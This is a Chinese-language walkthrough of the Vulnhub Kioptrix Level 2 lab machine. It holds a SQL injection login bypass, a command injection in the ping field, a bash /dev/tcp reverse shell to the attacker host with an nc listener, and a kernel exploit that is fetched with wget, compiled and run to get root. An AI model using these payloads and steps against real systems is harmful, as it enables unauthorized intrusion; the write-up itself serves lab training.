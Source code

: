 ```yaml
---
title: Vulnhub-KIOPTRIX: LEVEL 2
date: 2024-01-26 
categories: [Training platform,Vulnhub]  
tags: [Vulnhub,web]  
permalink: "/Vulnhub/Kioptrix-level2.html"
---
```


# KIOPTRIX: LEVEL 2

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632087.png" alt="image-20240126104304145" style="zoom:50%;" />

老样子，对`.vmx`进行改造，然后扫描：

![image-20240126114005266](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632089.png)

## 踩点一下

打开看看对不对：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632090.png" alt="image-20240126114350440" style="zoom:50%;" />

尝试万能密码，`username`填入`admin' or '1' = '1`，进入了。好家伙直接免去了我最糟心的sql注入环节：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632091.png" alt="image-20240126115844210" style="zoom:67%;" />

然后随便ping一下，看看能不能执行命令`127.0.0.1 && whoami`，输出：

```text
127.0.0.1 && whoami

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.264 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.034 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.032 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.032/0.110/0.264/0.108 ms, pipe 2
apache
```

使用插件看一下相关配置信息：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632092.png" alt="image-20240126122344403" style="zoom: 50%;" />

## 端口扫描

```sh
sudo nmap -sS -T5 -A -p- 192.168.244.138
/*
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-25 23:07 EST
Nmap scan report for 192.168.244.138
Host is up (0.00067s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1009/udp   status
|_  100024  1           1012/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_ssl-date: 2024-01-26T01:58:17+00:00; -2h09m35s from scanner time.
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_DES_64_CBC_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
|_http-server-header: CUPS/1.1
1012/tcp open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:12:F4:09 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

Host script results:
|_clock-skew: -2h09m35s

TRACEROUTE
HOP RTT     ADDRESS
1   0.67 ms 192.168.244.138

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.59 seconds
*/
```

可以看到，开放了`22,80,111,443,631,1012,3306`这几个端口。

## 方法一：kali监听，反弹shell

```shell
127.0.0.1&&bash -i >& /dev/tcp/192.168.244.133/3380 0>&1
# bash -i >& /dev/tcp/192.168.244.133/3380 0>&1：这是一个反向 shell 命令的核心部分。
# bash -i：这会启动一个交互式的 bash shell。
# >& /dev/tcp/192.168.244.133/3380：这会将 bash shell 的输出重定向到 IP 地址 192.168.244.133 的 3380 端口。这意味着在 192.168.244.133 上监听 3380 端口的任何人都可以看到 bash shell 的输出。
# 0>&1：这会将 bash shell 的输入重定向到其输出，这意味着在 192.168.244.133 上监听 3380 端口的任何人都可以向 bash shell 发送命令。
```

本地开启一下监听：

```shell
nc -lvvp 3380
# nc：这是 netcat 的简写，是一个强大的网络工具，可以用于读取和写入网络连接。
# -l：这个参数让 netcat 进入监听模式，等待接入的连接。
# -v：这个参数让 netcat 在操作过程中提供更多的信息，也就是说它会显示更详细的输出。当你使用两个 -v 参数（即 -vv）时，netcat 会提供更详细的信息。
# -p 3380：这个参数指定 netcat 应该监听的端口号，这里是 3380。
```

进去了，拿到了一个普通用户权限：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632093.png" alt="image-20240126122158468" style="zoom:50%;" />

## 尝试提权

先寻找一下Apache相关漏洞查看是否有可以实现的：

![image-20240126122906650](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632094.png)

不对，我都反向连接shell了，我还要这个干啥。。。

尝试`SUID`提权：

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lvvp 3380
listening on [any] 3380 ...
192.168.244.138: inverse host lookup failed: Unknown host
connect to [192.168.244.133] from (UNKNOWN) [192.168.244.138] 32771
bash: no job control in this shell
bash-3.00$ find / -perm -4000 2>/dev/null
/sbin/unix_chkpwd
/sbin/pam_timestamp_check
/sbin/pwdb_chkpwd
/usr/sbin/ccreds_validate
/usr/sbin/userhelper
/usr/sbin/userisdnctl
/usr/sbin/suexec
/usr/sbin/usernetctl
/usr/libexec/openssh/ssh-keysign
/usr/libexec/pt_chown
/usr/kerberos/bin/ksu
/usr/lib/squid/pam_auth
/usr/lib/squid/ncsa_auth
/usr/bin/chsh
/usr/bin/rcp
/usr/bin/sudo
/usr/bin/chage
/usr/bin/crontab
/usr/bin/rlogin
/usr/bin/rsh
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/lppasswd
/usr/bin/sg
/usr/bin/passwd
/bin/mount
/bin/traceroute6
/bin/traceroute
/bin/umount
/bin/ping6
/bin/ping
/bin/su
```

没有我们想要的文件。。。

尝试内核提权：

```shell
uname -a 	   #打印系统信息
lsb_release -a #查看系统版本
```

![image-20240126123958819](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632095.png)

可以看到 CentOS 版本为4.5，查找相关漏洞：

![image-20240126124416353](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632096.png)

第二个符合我们的系统，尝试下载下来利用一下：

```shell
searchsploit -m PATH
```

然后开启python的简单http服务：

```shell
python3 -m http.server 1234
```

然后在反弹shell中进行下载：

```shell
cd /tmp  								 # 防止没有读写权限
wget http://192.168.244.133:1234/9542.c  # 远程下载payload
gcc 9542.c  							 # 编译一下，这里有报错但是不影响
./a.out 								 # exploit
```

![image-20240126130302284](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401261632097.png)

如图已经拿到了root，打靶结束。